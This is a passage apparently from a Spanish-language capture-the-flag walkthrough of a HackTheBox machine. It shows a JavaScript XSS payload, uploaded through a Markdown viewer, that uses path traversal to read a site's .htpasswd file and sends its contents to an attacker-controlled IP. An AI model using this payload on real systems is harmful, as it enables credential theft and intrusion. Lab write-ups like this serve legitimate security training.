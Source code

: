 El archivo lo subiremos en el visualizador Markdown del sitio web.

```javascript
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.16.5/?file_content=" + encodeURIComponent(data));
  });
</script>
```

<figure><img src="../../../../.gitbook/assets/imagen (234).png" alt=""><figcaption></figcaption></figure>

Al subir el archivo, nos da la opción de `Share Markdown` el cual nos porporciona un enlace.
